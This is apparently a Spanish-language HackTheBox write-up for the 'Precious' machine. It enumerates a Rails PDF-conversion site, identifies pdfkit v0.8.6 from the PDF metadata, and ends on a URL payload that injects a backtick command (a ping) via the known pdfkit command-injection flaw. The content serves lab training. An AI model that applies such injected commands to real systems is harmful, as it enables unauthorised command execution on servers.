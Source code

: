 Añado el dominio ```precious.htb``` al ```/etc/hosts```

## Puerto 80 (HTTP)

Con ```whatweb``` analizo las tecnologías que emplea el servidor web

```null
whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

La página principal se ve así

<img src="/writeups/assets/img/Precious-htb/1.png" alt="">

Introduzco mi URL y recibo una petición por GET al ```netcat```

```null
nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.16.21] from (UNKNOWN) [10.10.11.189] 49986
GET / HTTP/1.1
Host: 10.10.16.21
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

Comparto un servicio ```HTTP``` con ```python``` y al descargar el ```PDF``` puedo ver en los metadatos el programa que se ha utilizado para generarlo

```null
exiftool file.pdf -Creator
Creator                         : Generated by pdfkit v0.8.6
```

En este [post](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) explican una forma de inyectar comandos a través de la URL introducida como input

```null
http://10.10.16.21/%20`ping -c 1 10.10.16.21`
```
